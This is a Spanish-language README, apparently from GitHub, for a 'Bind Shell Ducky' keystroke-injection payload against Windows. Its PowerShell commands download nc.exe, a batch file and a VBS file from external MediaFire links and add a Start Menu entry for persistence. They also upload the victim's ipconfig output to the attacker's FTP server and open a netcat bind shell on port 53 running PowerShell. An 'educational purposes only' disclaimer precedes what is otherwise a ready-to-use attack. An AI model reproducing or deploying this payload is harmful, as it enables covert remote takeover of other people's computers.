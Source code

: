 # Bind Shell Ducky
No me hago responsable del mal uso que se le pueda dar a esta herramienta. Sólo para fines educativos.

## Explicación

Este payload lo que hace es configurar una bind shell que se ejecutará cada vez que el ordenador se encienda. Para ello, descarga 3 archivos y sube a nuestro servidor ftp 
( podéis modificarlo para que se suba de otro modo) un archivo .txt que contiene la información con la IP del equipo víctima.


#### Archivos utilizados:

	-nc.exe en USERPROFILE (https://download1585.mediafire.com/25w5mwh6g4kg/ncd5kz7z6bv0bsa/nc.exe)
	-Archivo b.bat en cualquier directorio, en mi caso USERPROFILE (https://download1497.mediafire.com/8m313dl9bqqg/kluwkdgi8v6dovl/b.bat)
	-Archivo e.vbs en carpeta de menú de inicio (https://download1338.mediafire.com/gvrx9wxzrjzg/ohgvexnnc6axq1d/e.vbs)
	-Archivo a.txt que contendrá la <IP_VÍCTIMA> ubicada en C:\


#### Conseguir la <IP_VÍCTIMA> y enviarla :

	-En el mismo powershell: cd C:\
	-En la siguiente línea enviamos la ip a un bloc de notas: ipconfig > a.txt
	-Nos registramos en nuestro servidor ftp: ftp <HOST DEL DOMINIO>
	-<USUARIO>
	-<CONTRASEÑA>
	-Subimos el archivo ya creado: put a.txt
	-bye


#### Por último, ejecuta el programa:

	-En el mismo ps:  start $st\e.vbs 


#### ADICIONAL:    

  Para acelerar el proceso, se declaran las variables $us , $st y $client 
  
  La conexión es a través del Puerto 53 
  
  Recomendable modificar el Delay en el payload dependiendo de la velocidad del ordenador. La duración media es de 40 segundos. 
  
  El comando que aparece en el .bat es: .\nc -lvp 53 -e powershell 
  
  Para acceder a la shell del equipo víctima, debemos poner esto desde kali linux: nc <IP_VÍCTIMA> 53 
  
  La <IP_VÍCTIMA> estará en el archivo a.txt que habremos enviado por ftp durante el ataque. 
  
  Probablemente os pida aceptar una opción del firewall al finalizar el proceso. 
  
  Editar en el payload la contraseña, dominio y usuario del server ftp.
  


#### COMANDOS EN POWERSHELL:
```
	$us = $env:userprofile
	$st = $env:appdata + "\Microsoft\Windows\Start Menu\Programs\"
	$client = new-object System.Net.WebClient
	$client.DownloadFile("https://download1497.mediafire.com/8m313dl9bqqg/kluwkdgi8v6dovl/b.bat","$us\b.bat")
	$client.DownloadFile("https://download1585.mediafire.com/25w5mwh6g4kg/ncd5kz7z6bv0bsa/nc.exe","$us\nc.exe")
	$client.DownloadFile("https://download1338.mediafire.com/gvrx9wxzrjzg/ohgvexnnc6axq1d/e.vbs","$st\e.vbs")
	cd C:\
	ipconfig > a.txt
	ftp <DOMINIO>
	<USUARIO>
	<CONTRASEÑA
	put a.exe
	bye
	start $st\e.vbs  
	exit	
```

## Sígueme en mi cuenta de Instagram: [**@belmar_04**](https://www.instagram.com/belmar_04/)
